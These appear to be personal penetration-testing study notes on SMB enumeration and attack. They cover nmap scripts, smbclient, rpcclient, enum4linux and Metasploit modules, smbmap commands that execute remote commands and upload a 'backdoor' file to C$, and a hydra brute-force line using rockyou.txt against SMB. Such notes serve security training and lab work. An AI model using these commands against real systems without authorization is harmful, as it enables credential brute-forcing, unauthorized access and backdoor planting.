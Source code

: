  enumeration 

- nmap -T4 $IP/20 --open 
- nmap $IP -T4 -sV -O 
- nmap $IP -sC -sV 
- nmap --script smb-os-discovery.nse -p445 $IP
    nmblookup -A $IP 
- smbclient -L $IP -N (null session} 
- rpcclient -U "" -N $IP
- enum4linux -U $IP
- msfconsole /scanner/smb/smb2
- msfconsole smb_enumshares 
- smbclient //192.5.121.3/Public -N | to connect to file that have the read and write permissions 
- msfconsole 
auxiliary/scanner/smb/smb_login | The smb_login module is used to bruteforce SMB remotely.
auxiliary/scanner/smb/pipe_auditor | The `pipe_auditor` scanner will determine what named pipes are available over SMB
- --script smb-protocols  | version information 

-------------------------------------

NMAP scripts for further enumaration 

--script smb-protocols  | version information 
--script smb-security-mode | acount used etc
--script smb-enum-sessions | who logged in 
--script smb-enum-sessions --script-args smbusername=admin , smbpassword=smbserver_771 | pass arguments 
--script smb-enum-shares | what do we have access to ? we can also add --script-args after authenticating to get better results of shares access 
--script smb-enum-users | to know which users exist we can parse --script-args
--script smb-server-stats | get server statistics we can parse --script-args [admin:pass]
--script smb-enum-domains | we could see users/passwords enum 
--script smb-enum-services | information specific to the service 
--script smb-enum-shares,smb-ls | will get shares and will run ls command on them with --script-args 

----------------------------------

SMBCLIENT 

- smbclient -L $IP -N (null session} 
- smbclient //192.5.121.3/Public -N | to connect to file that have the read and write permissions 
- smbclient //ip/jane -U jane
- smbclient //192.215.135.3/admin -U admin
//192.168.100.52/print$ Mapping: DENIED, Listing: N/A
//192.168.100.52/shared Mapping: OK, Listing: OK
//192.168.100.52/IPC$   [E] Can't understand response:

https://www.samba.org/samba/docs/current/man-html/smbclient.1.html

-------------------------------

RPCCLIENT 

- rpcclient -U "" -N $IP



RPCLIENT MAIN SITE 
https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html
RPCLIENT COMMANDS 
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration

-----------------------------

SMBMAP

- smbmap -H 192.168.1.1 -u admin -p password1 
- smbmap -u guest -p "" -d . -H 192.168.0.1 | user/pass/directory/host |will give us shares and    permissions 
- smbmap -u guest -p "" -d . -x 'ipconfig' -H 192.168.0.1 | added -x which runs command 
- smbmap -u guest -p "" -d . --upload '/root/backdoor' 'C$\\backdoor'-H 192.168.0.1
- smbmap -u guest -p "" -d . --download 'C$\\flag.txt'-H 192.168.0.1

https://github.com/ShawnDEvans/smbmap

-------------------------------------

BRUTEFORCE smb and unzip 

- hydra -l admin -P /rockyou.txt 192.168.1.1 smb 
- gzip -d | to uncompress a file 
- tar -xf | unzip tar 

------------------------------
- enum4linux -r -u "admin" -p password 192.168.1.1 

  | performing RID cycling with enum4linux 
  enum4linux --help | for more commands 